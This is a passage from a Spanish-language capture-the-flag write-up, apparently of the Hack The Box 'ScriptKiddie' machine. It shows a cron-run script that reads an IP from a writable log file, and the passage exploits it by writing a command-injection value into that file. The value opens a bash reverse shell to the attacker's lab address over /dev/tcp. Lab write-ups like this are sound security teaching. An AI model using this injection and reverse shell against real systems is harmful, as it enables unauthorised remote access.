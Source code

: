 lo llevamos a la ruta /home/kid, le damos permisos de ejecucion y lo ejecutamos:

```
chmod +x proc.sh
./proc.sh
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SCRIPTKIDDIE/images/13.png)

Vemos que se esta ejecutando el mismo comando del archivo **scanlosers.sh**:

```
sh -c nmap --top-ports 10 -oN recon/;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.66/4242 0>&1' #.nmap ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.66/4242 0>&1' # 2>&1 >/dev/null
```

entonces es una tarea que se ejecuta cada cierto periodo de tiempo. Claro que la relacion con el script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SCRIPTKIDDIE/images/12.png)

la variable ${ip} valdria:

```
;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.66/4242 0>&1' #
```

Y recordemos que el archivo **scanlosers.sh** saca el valor de ${ip} del archivo **/home/kid/logs/hackers** del cual tenemos permisos de escritura-

Entonces tenemos que escribir en el archivo **/home/kid/logs/hackers** esto:

```
127.0.0.1 ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.235/4242 0>&1' #

donde 127.0.0.1 es la direccion IP auxiliar para que ahi se ejecute el nmap
donde 10.10.14.235 es nuestra direccion IP
y 4242 el puerto al que estaremos a escucha
```
